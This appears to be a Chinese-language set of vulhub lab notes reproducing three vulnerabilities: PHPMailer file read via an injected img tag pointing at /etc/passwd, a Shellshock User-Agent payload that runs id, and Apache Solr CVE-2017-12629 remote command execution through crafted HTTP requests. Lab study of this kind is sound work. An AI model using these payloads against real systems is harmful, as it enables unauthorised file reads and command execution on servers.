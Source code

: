 
## **[漏洞环境]**

> PHPMailer在发送邮件的过程中，会在邮件内容中寻找图片标签（<img src="...">），并将其src属性的值提取出来作为附件。所以，如果我们能控制部分邮件内容，可以利用`<img src="/etc/passwd">`将文件/etc/passwd作为附件读取出来，


# **[Shellshock 破壳漏洞（CVE-2014-6271）](https://github.com/vulhub/vulhub/blob/master/bash/shellshock/README.zh-cn.md)**


## **漏洞利用**
将payload附在User-Agent中访问victim.cgi：
```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

# **[Apache Solr 远程命令执行漏洞（CVE-2017-12629）](https://vulhub.org/#/environments/solr/CVE-2017-12629-RCE/)**


## 漏洞复现

首先创建一个listener，其中设置`exe的值为`我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```

> 然后进行update操作，触发刚才添加的listener：
```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```
